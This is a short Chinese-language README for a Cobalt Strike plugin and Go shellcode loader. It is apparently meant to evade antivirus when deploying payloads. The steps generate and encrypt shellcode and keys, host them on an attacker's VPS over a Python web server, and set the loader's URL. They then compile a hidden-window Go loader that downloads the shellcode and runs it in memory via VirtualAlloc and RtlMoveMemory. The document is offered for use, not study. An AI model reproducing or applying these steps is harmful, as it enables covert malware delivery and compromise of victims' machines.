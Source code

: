 1. CS加载Bypass_Remake.cna插件，生成shellcode和加密key1、key2：
"Attack" > "BypassShellCode"

2. 将得到的shellcode和key的值分别做加密：
`process_shellcode.exe shellcode`
`process_shellcode.exe key1`
`process_shellcode.exe key2`

3. 得到的三个结果分别手动保存为文件放在vps上
code.txt
k1.txt
k2.txt

4. 在vps上起一个服务器：
`python -m SimpleHTTPServer 80`

5. 修改shellcode_loader.go中的vps请求地址即可：
```
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
	URI           = "http://vps:80/"
)
```

6. 编译go文件：
`go build -ldflags "-H windowsgui" shellcode_loader.go`

7. 运行shellcode_loader.exe即可
